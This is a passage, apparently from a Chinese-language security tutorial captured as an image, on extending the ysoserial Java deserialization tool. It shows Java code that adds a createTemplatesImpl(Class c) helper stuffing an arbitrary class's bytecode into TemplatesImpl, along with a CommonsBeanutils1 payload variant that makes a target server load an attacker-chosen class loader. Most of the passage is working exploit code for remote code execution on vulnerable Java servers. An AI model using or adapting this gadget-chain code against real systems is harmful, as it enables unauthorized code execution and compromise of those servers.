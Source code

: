 ```java

​      e.printStackTrace();

​    }

  }

  public void transform(DOM arg0, SerializationHandler[] arg1) throws TransletException {

  }

  public void transform(DOM arg0, DTMAxisIterator arg1, SerializationHandler arg2) throws TransletException {

  }

}
```



在ysoserial.payloads.util包的Gadgets类中照着原有的createTemplatesImpl方法添加一个createTemplatesImpl(Class c)，参数即为我们要让服务端加载的类，如下直接将传入的c转换为字节码赋值给了_bytecodes



```java
public static <T> T createTemplatesImpl(Class c) throws Exception {
    Class<T> tplClass = null;

    if ( Boolean.parseBoolean(System.getProperty("properXalan", "false")) ) {
        tplClass = (Class<T>) Class.forName("org.apache.xalan.xsltc.trax.TemplatesImpl");
    }else{
        tplClass = (Class<T>) TemplatesImpl.class;
    }

    final T templates = tplClass.newInstance();
    final byte[] classBytes = ClassFiles.classAsBytes(c);

    Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
        classBytes
    });

    Reflections.setFieldValue(templates, "_name", "Pwnr");
    return templates;
}
```



复制CommonsBeanutils1.java的代码增加一个payload CommonsBeanutils1_ClassLoader.java，修改如下：



`final Object templates = Gadgets.createTemplatesImpl(ysoserial.MyClassLoader.class);`

 